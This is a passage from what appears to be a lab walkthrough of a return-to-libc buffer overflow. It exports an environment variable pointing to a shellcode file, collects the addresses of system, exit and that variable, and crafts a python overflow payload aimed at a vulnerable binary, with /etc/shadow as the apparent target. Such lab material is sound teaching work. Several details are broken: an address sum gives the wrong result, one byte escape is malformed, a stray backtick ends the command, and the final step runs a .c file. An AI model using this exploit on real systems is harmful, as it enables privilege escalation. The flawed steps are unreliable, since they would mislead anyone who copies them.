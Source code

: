 We will create an environment variable named `MYVAR` that contains the path to the `shellcode` we created above.

```sh
export MYVAR=/shellcode.o
```

Check the shell env list, the `MYVAR` env should be seen in the list.

<img width=512 src=https://github.com/user-attachments/assets/bdc0019f-f9f5-442c-9fca-c59920159288/>

## 4. Conduct the attack:

Firstly, we will find the address of the `system` function. 

<img width="512" alt="Screenshot 2024-10-23 at 10 26 24" src="https://github.com/user-attachments/assets/015fb4c8-c72a-41b9-b1a7-27c3ab059539">

It is `0xf7dd58f0` in this case.

Secondly, we will find the address of `exit` function.

<img width="481" alt="Screenshot 2024-10-23 at 10 38 38" src="https://github.com/user-attachments/assets/2c04367e-6115-4686-8da4-5ebad905321e">

Thirdly, we will find the address of the `MYVAR` env and the actual address of the `shellcode.o`.

<img width="512" alt="Screenshot 2024-10-23 at 10 37 17" src="https://github.com/user-attachments/assets/693253a5-80e1-4148-86a5-1cd5def9fa6d">

Since we only need the string `./shellcode.o` (without the `MYVAR=` bit in front, which is 6 characters long), we know that `0xffffcd67 + 6` will give us the exact location we are looking for, which is `0xffffcd67` this case.

<img width="512" alt="Screenshot 2024-10-23 at 10 43 23" src="https://github.com/user-attachments/assets/09854379-e8ff-4e82-8325-d2b6d734c433">

## 4. Run the program

We have already found all the information needed, we can put all of them together into one single command and execute:

```sh
./vulnerable.o $(python3 -c "print('A' * 16 + '\xf0\x58\xdd\f7' + '\xc0\x45\xdc\xf7' + '\x67\xdd\xff\xff')")`
```

Before we run the program, we need to verify the shell permisison of `/etc/shadow` file:

```sh
ls -l /etc | grep shadow$
```

<img width="512" alt="Screenshot 2024-10-23 at 09 56 25" src="https://github.com/user-attachments/assets/a45a2036-159e-4d9c-ac8a-0359d9d423ce">

Currently, it is `-rw-r--r--`.

Now we run the program:

```c
./vulnerable.c
```
